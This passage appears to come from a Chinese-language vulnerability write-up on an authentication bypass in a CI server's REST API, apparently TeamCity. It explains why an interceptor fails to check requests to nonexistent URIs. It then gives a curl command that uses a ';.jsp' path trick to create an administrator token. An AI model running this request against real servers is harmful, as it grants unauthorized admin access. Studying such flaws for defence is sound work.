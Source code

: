     [![](assets/1710899887-c31ad647a7afd18d9c025513ee5df5d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306104958-387a6292-db64-1.png)  
    拦截器只会在栈空间为 1 的时候起作用，但我们当时请求的是个不存在的 uri，所以自然始终是返回 true 的  
    [![](assets/1710899887-5e316ffb88e26214172d26db279e1a95.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240306105013-4169d1d0-db64-1.png)
-   利用  
    和之前的漏洞一样，我们也可以通过 `/app/rest/users/id:1/tokens/{name}` 获取管理员 token
    
    ```plain
    curl --noproxy '*' -ik "http://127.0.0.1:8111/xxxx?jsp=/app/rest/users/id:1/tokens/racerz;.jsp" -X POST
    ```
    
